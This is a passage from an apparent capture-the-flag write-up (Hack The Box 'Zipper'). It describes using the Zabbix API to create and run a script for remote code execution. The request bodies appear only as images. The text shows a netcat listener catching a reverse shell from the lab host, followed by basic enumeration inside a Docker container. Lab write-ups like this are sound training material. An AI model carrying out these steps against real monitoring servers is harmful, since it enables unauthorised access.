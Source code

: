 Response:

![](/assets/images/htb-writeup-zipper/apihost_response1.png)
![](/assets/images/htb-writeup-zipper/apihost_response2.png)

**Create a script for RCE**

Body:

![](/assets/images/htb-writeup-zipper/apiscript.png)

Response:

![](/assets/images/htb-writeup-zipper/apiscript_response.png)

**Execute script**

Body:

![](/assets/images/htb-writeup-zipper/apiexec.png)

### First shell in the container

We got a shell after executing the script from Zabbix:
```
root@ragingunicorn:~# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.108] 54366
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=103(zabbix) gid=104(zabbix) groups=104(zabbix)
$ hostname
8e5a23a4dfec
$
```

Based on the random hostname and the `.dockerenv` file in the root directory we can assume we're currently in a container:
```
drwxr-xr-x   1 root root 4096 Oct 20 19:27 .
drwxr-xr-x   1 root root 4096 Oct 20 19:27 ..
-rwxr-xr-x   1 root root    0 Oct 20 19:27 .dockerenv
```

There's not much on this container except the Zabbix configuration file:
```
$ pwd
/etc/zabbix
$ ls
apache.conf
web
zabbix_server.conf
$
```
